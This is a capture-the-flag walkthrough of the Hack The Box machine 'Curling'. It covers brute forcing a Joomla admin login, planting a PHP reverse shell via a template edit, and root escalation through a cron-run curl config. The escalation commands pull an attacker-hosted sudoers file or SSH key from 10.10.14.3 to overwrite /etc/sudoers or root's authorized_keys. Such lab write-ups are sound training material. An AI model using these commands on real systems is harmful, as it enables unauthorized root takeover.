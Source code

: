 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.150 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/1.png">

The scan shows two open ports and the target is running on Linux. On port 80 there's a webservice running a CMS. We spot a administator username in a message: ```Floris```. Next we'll try to find out the type and version of the CMS.

# Enumeration
Running ```whatweb``` on the target shows us that the webservice is running Joomla.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/2.png">

```Wappalyzer``` tells us the same thing:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/4.png">

Next we'll run ```joomscan``` on the target only to find out it didn't return anything useful. We do however find the administrator login page at ```http://10.10.10.150/administrator/```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/3.png">

# Initial Foothold
We can use ```cewl``` to create a wordlist in order to bruteforce the ```Floris``` administrator account.
```
cewl -m 3 http://10.10.10.150 -d 3 -w words.txt 
```
```Cewl``` removes trailing numbers so we'll add ```curling2018``` to our wordlist. We also use ```john the ripper``` to add numbers and symbols:
```
john --wordlist=words.txt --rules --stdout > words-modified.txt 
```

We intercept a login attempt with ```BurpSuite``` and use the information to craft the request for ```thc-hydra```:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/5.png">
```
hydra -l Floris -P words-modified.txt 10.10.10.150 http-post-form "/:username=^USER^&passwd=^PASS^&option=com_login&task=login&return=aW5kZXgucGhw&9abbf60416dedcbdf4f5530a3ddea49d=1:F=Username and password do not match" -V 
```
This didn't work either..

Reviewing the code from the website reveals a secret.txt file. This file contains a base64 encoded string which decodes to: ```Curling2018!```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/6.png">

We can now login at the administrator page using ```Floris``` and ```Curling2018!```.

Next thing we can try is to upload a reverse php shell from Pentestmonkey. A filter is blocking this attempt. We can try to bypass these filters by altering the request but it didn't seem to work. Another method is to change the content of a page. We'll do this for the ```index.php``` page after browsing to ```Extensions >  Templates > Templates > Beez3 Details and Files```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/8.png">

As soon as we preview the template we have a reverse shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/7.png">

# Lateral movement
Trying to upgrade to a PTY shell didn't work as there's no ```python``` installed. We can however try to upgrade to a TTY shell:
```
/usr/bin/script -qc /bin/bash /dev/null	
export TERM=xterm
Press ctrl+z key combination 
stty raw -echo; fg
```

We look for cron jobs, running processes and check the kernel version with ```uname -a```. This shows the target is running Linux Curling 4.15.0. Nothing special to see here.

When browsing the users files we have access to a file named ```pass_word``` backup. After investigating this file it turns out to be hex dump using ```xxd```. Which we can reverse.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/9.png">

```
cat password_backup | xxd -r > output
```

We then have to extract the file a few times using the following commands:
```
bzip2 -d bak
file bak.out
mv bak.out bak.gz
gzip -d bak.gz
file bak
bzip2 -d bak
file bak.out
tar xf bak.out
cat password.txt
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/10.png">

This provides us a password: ```5d<wdCbdZu)|hChXll```. We can now use ```su floris``` and enter the password to have access using the ```floris``` account.

# Privilege Escalation (Method 1)
We now have access to the ```admin-area``` where we find two files named ```input``` and ```report```. There's probably a cron job running as root. We can confirm this by running the following command:
```
while true; do ps waux | grep report | grep -v "grep --color"; done
```
We could also use ```pspy64s``` for this.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/11.png">

One way to get the root flag is to change the ```input``` file so that it uses ```curl``` to retrieve the root flag:

```
echo url = "file:///root/root.txt" > input
```
And then wait until the cron jobs runs.

# Privilege Escalation (Method 2)
Another way is to change the ```sudo``` configuration:
```
nano my-sudoers

Add:
root	ALL=(ALL:ALL) ALL
floris	ALL=(ALL:ALL) ALL
```
And start a webserver on the attacking machine:
```
python -m SimpleHTTPServer 8000
```
We then change the content of the ```input``` file so that it downloads our sudoers file and saves it at ```/etc/sudoers```:
```
echo -e 'url = "http://10.10.14.3:8000/my-sudoers"\noutput = "/etc/sudoers"' > input
```
We can now run ```sudo su``` and enter our known password to get a shell as root:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/12.png">

# Privilege Escalation (Method 3)
Yet another way is to copy our public ```ssh``` key to the authorized keys at our target. We'll first create a keypair using ```ssh-keygen``` and setup a webserver.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/13.png">

We then change the content of the ```input``` file  
```
echo -e 'url = "http://10.10.14.3:8000/authorized_keys"\noutput = "/root/.ssh/authorized_keys"' > input
```
We again wait until the file is downloaded and are then able to login as ```root```:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/14.png">
















